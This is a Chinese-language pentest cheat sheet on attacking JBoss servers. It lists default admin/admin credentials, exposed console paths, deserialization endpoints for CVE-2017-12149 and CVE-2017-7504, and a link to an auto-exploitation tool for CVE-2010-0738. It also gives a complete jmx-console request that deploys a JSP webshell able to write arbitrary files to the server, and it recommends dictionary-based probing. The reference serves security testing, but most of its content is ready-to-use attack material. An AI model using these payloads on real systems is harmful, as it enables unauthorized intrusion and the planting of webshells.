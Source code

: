 # jboss中间件漏洞总结

## 前言

总结一下jboss漏洞。该总结来源于Vulhub靶场、wooyun90余个漏洞和exploit-db。  

## Jboss指纹

通过HTTP 响应头中的 X-Powered-By    

## JBOSS默认配置后台漏洞

漏洞发生在jboss.deployment命名空间中的addURL()函数,该函数可以远程下载一个war压缩包并解压。

`/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment%3Atype%3DDeploymentScanner%2Cflavor%3DURL`    

## 弱口令/未授权访问

admin/admin

* /admin-console/login.seam
* /admin-console/
* /jmx-console/
* /web-console/
* /jmx-console/HtmlAdaptor?action=displayMBeans
* /web-console/ServerInfo.jsp

## Jboss蠕虫

/zecmd/zecmd.jsp  

## JMX控制台安全验证绕过漏洞（CVE-2010-0738）

通过HEAD方法绕过验证部署webshell [https://github.com/ChristianPapathanasiou/jboss-autopwn](https://github.com/ChristianPapathanasiou/jboss-autopwn)

## 反序列化漏洞

  /invoker/JMXInvokerServlet /invoker/EJBInvokerServlet /invoker/readonly //CVE-2017-12149 /jbossmq-httpil/HTTPServerILServlet //CVE-2017-7504

## 命令执行

```bash
/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```

## 拒绝服务

CVE-2018-1041 [https://www.exploit-db.com/exploits/44099](https://www.exploit-db.com/exploits/44099)

## 其他漏洞

访问[https://www.exploit-db.com/search?q=JBoss](https://www.exploit-db.com/search?q=JBoss)

## 总结

可以制作一个网站目录字典，发现中间件是Jboss，用字典探测，效率会比较高。

